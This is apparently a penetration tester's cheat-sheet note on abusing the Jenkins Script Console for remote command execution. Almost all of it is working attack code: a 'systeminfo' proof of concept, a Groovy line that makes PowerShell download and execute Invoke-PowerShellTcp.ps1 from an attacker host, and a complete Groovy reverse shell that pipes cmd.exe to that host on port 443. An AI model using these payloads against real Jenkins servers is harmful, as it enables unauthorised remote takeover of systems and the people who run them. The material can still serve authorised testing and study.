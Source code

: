 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Manage Jenkins > Script Console

#### POC:
```jenkins - web app
println "cmd.exe /c systeminfo".execute().text
```

#### Powershell rev shell:
Manage Jenkins > Script Console
```jenkins - web app
def command = "powershell -c iex(new-object net.webclient).downloadstring(‘http://$KALI:80/Invoke-PowerShellTcp.ps1')"  
def proc = command.execute()  
println(proc.in.text)
```

#### CMD rev shell:
Manage Jenkins > Script Console
```jenkins - web app
String host="$KALI";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
